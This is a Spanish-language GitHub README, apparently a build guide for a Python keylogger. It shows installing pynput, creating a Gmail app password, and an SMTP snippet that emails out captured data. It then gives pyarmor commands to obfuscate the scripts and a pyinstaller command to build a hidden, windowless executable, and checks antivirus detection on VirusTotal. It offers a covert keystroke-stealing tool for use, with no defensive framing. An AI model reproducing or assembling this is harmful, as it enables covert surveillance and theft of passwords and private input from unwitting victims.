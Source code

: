# **Keylogger: Guía de Configuración y Uso**

## **1. Requisitos Previos**

### **a. Configuración del Entorno**

1. **Instalar Python**:  
   Asegúrate de tener Python 3.x instalado en tu sistema.  
   Descárgalo desde [python.org](https://www.python.org/downloads/).
2. **Instalar las dependencias necesarias**:  
   Ejecuta el siguiente comando en tu terminal:
   ```bash
   pip install pynput
   ```
### **b. Crear una Clave de Aplicación en Gmail**
- Accede a tu cuenta de Gmail.
- Ve a la página de configuración de contraseñas de aplicación: myaccount.google.com/apppasswords
- Genera una clave de aplicación:
- Selecciona "Correo" como aplicación.
- Selecciona "Equipo personal" como dispositivo.
- Copia la clave generada (por ejemplo: yxki jwbt ebfu khvc).

![Pasted image 20240628130101](https://github.com/user-attachments/assets/88b09cca-fac8-4f1a-893a-319198f6ae93)

⚠️ Importante: No compartas esta clave públicamente y guárdala de forma segura.

## **2. Crear el Script del Keylogger**
### **a. Archivos Requeridos**
Crea los siguientes archivos con el código proporcionado:

- Archivo: main.py
- Archivo: keylogger.py

### **b. Clave de aplicación**
La parte del script donde añadir los datos de envió del mail están en esta parte, y no te olvides de importar las librerías!!!
```python
import smtplib
from email.mime.text import MIMEText

subject = "Email Subject"
body = "This is the body of the text message"
sender = "sender@gmail.com"  #Sender Email Address
recipients = ["recipient1@gmail.com", "recipient2@gmail.com"]  # Multiple email address can be given
password = "password" # Gmail Application Password

# We will create a function to send mail .We will pass above values in funcion parameter.
def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)   # Creating msg object using MIMEText class of email module
    msg['Subject'] = subject  # Assigning the subject
    msg['From'] = sender  # Assigning the sender email address
    msg['To'] = ', '.join(recipients)  # Assigning recepients email address.
    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:   # Creating connection using context manager
       smtp_server.login(sender, password)
       smtp_server.sendmail(sender, recipients, msg.as_string())
    print("Email sent Successfully!")


# We will call the function and pass the parameter values defined in line no 4 to 8.
send_email(subject, body, sender, recipients, password)
```
## **3. Ofuscar el Código**
Ejecuta los siguientes comandos para ofuscar los scripts:
```python
pyarmor gen keylogger.py
pyarmor gen main.py
```
![Pasted image 20241204191457](https://github.com/user-attachments/assets/efd58f8e-b7cc-419b-b7c8-a24d85e9aa7f)

## **4. Compilar**
Usa pyinstaller para generar un ejecutable:
```python
pyinstaller --onefile --noconsole --add-data "dist/keylogger.py;." --hidden-import=pynput.keyboard --hidden-import=smtplib --hidden-import=termcolor --hidden-import=socket --hidden-import=os --hidden-import=email.mime --hidden-import=email.mime.text dist/main.py
```
![Pasted image 20241204191801](https://github.com/user-attachments/assets/e6a870b2-bc81-4ba5-b413-39a2a56b7f9e)

## **4. Resultado Final**
1. **Ejecutables Generados**
Una vez compilado, tendrás un archivo ejecutable en la carpeta dist.
El resultado se verá del siguiente modo:
![Pasted image 20241204192049](https://github.com/user-attachments/assets/01054c9d-8156-4a8f-a3ce-c25776f76ae5)

2. **Análisis en Virus Total**
Puedes analizar el ejecutable en Virus Total para comprobar su estado.
![Pasted image 20241204192640](https://github.com/user-attachments/assets/16ce5656-e36b-4ed4-b355-19718fb753f6)




